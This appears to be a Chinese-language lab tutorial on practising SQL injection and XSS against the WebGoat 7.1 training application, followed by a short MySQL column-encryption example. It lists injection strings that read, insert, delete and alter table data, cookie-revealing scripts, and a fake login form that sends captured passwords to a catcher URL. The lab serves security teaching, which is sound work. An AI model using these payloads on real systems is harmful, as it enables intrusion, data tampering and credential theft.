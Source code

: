 # SQL Injection 與 XSS攻擊手法
- 下載 Java
  - 網址：https://java.com/zh_TW/download/manual.jsp
  - 檔名：jre-8u281-windows-x64.exe
- 安裝 Java
  - 執行 jre-8u281-windows-x64.exe
- 下載 WebGoat 7.1
  - 網址：https://github.com/WebGoat/WebGoat/releases/tag/7.1
  - 檔名：webgoat-container-7.1-exec.jar
- 安裝 WebGoat 7.1
  - 開啟命令提示字元視窗並執行以下指令：
    - java -jar webgoat-container-7.1-exec.jar
  - 開啟 Chrome 瀏覽器輸入 http://localhost:8080/WebGoat
  - 登入帳號 guest 與通行碼 guest

## SQL Injection 測試步驟
- Numeric SQL Injection
  - 數字欄位(點選 Injection Flaws > Numeric SQL Injection)
  - 在網址列輸入 http://localhost:8080/WebGoat/start.mvc#attack/515/1100?Screen=75&menu=1200&station=101 or 1=1並檢視查詢的結果
- String SQL Injection
  - 文字欄位(點選 Injection Flaws > String SQL Injection)
  - 在 Last Name 欄位輸入「S' or '1'='1」or 「1' or '1'='1」並檢視查詢的結果
  - 在 Last Name 欄位輸入「alice';select * from salaries where '1'='1」並檢視查詢的結果
  - 在 Last Name 欄位輸入「alice';insert into salaries (userid,salary)values ('steven',100);select * from salaries where '1'='1」檢視增加的結果
  - 在 Last Name 欄位輸入「alice';delete from salaries where userid='steven」後，再重新輸入「jsmith' ; select * from salaries where '1'='1」並檢視刪除的結果
  - 在 Last Name 欄位輸入「alice' ; ALTER table salaries add temp char(255); select * from salaries where '1'='1」並檢視增加的結果

## XSS 測試步驟
- Stored XSS
  - 點選 Cross-Site Scripting(XSS) > Stored XSS Attack)
  - 在 Title 欄位輸入「<script>alert('XSS');</script>」並檢視顯示的結果
- Reflected XSS
  - 點選 Cross-Site Scripting(XSS) > Phishing with XSS)
  - 在 Search 欄位輸入「<script>alert('XSS');</script>」並檢視顯示的結果
  - Search 欄位輸入「<script>alert(document.cookie);</script>」並檢視顯示的 Cookie 值
  - 在 Search 欄位輸入下列資料，輸入完成後，檢視輸入「Account」與「Password」的結果
```
</form> 
<script> 
function hack(){ 
    var user = document.loginform.user.value; 
    var pass = document.loginform.pass.value; 
    alert("User:" + user + "\nPass:" + pass); 
    XSSImage=new Image;   
XSSImage.src="http://localhost/webgoat/catcher?PROPERTY
=yes&user="+ user + "&password=" + pass; 
}   
</script> 
<form name="loginform" ><br><br><HR> 
<H3>這個功能需要您的帳號登入(Please  input  your  account, 
again):</H3 ><br><br> 
Account:<br><input type="text" name="user"><br> 
Password:<br><input type="password" name = "pass"><br> 
<input  type="submit"  name="login"  value="login" 
onclick="hack()"> 
</form><br><br><HR>
```
# 資料表欄位加密
- 資料表範例
- 建立資料表
```sql
CREATE TABLE employee( 
name char(20), 
username varbinary(255), 
password varbinary(255) 
)
```
- 於資料表內建立資料，同時使用加密函數將機敏資料欄位加密
```sql
INSERT INTO employee (name, username, password) values 
("johnchang",AES_ENCRYPT("john","peter1234"), 
AES_ENCRYPT ("12345","peter1234")) 
```
- 顯示加密資料
```
SELECT *, AES_DECRYPT(username, 'peter1234') 
DECOE_username, AES_DECRYPT (password, 'peter1234') 
DECOE_password FROM employee
```
````
